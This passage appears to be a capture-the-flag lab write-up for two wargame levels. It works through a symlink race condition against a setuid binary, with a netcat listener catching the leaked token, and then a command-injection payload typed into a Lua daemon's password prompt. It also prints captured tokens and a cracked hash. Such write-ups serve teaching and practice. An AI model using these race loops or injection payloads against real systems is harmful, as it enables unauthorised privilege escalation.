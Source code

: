 We use this exploit by creating race conditions with two simultaneous infinite loops running on our VM. 

```sh
# In a terminal window
> chmod 755 . && echo "HELLO" > test
> while true; do ln -s -f test link; ln -s -f token link; done
# In another terminal window
> while true; do ./level10 link 127.0.0.1; done
```

At the same time, we try to connect to `localhost` within our local machine

```sh
> while true; do nc -l 6969 ; done
.*( )*.
HELLO
.*( )*.
HELLO
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
^C
```

Running `getflag` as `flag10` yields the answer.

_Token: feulo4b72j7edeahuete3no7c_
- - - -

## Level 11 (CGI command injection)
Opening a `level11.lua` file, we see that a daemon is listening on local port 5151. Upon receiving a connection, it asks for a password and compares its hash against `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`. 

A quick Google search cracks the hash: `NotSoEasy`. However, this is not yet the password we need.

We note that the script uses string interpolation without escaping user input, which renders it vulnerable to a command injection attack.

```sh
> telnet localhost 5151
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: ; getflag > /tmp/BLABLABLA.txt #
Erf nope..
Connection closed by foreign host.
> cat /tmp/BLABLABLA.txt
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

> Putting social engineering techniques to good use, we could recall that a human user is likely to be reusing passwords and try to log in using previously obtained tokens. For this particular level, this would work – the tokens for levels 10 and 11 are identical.   
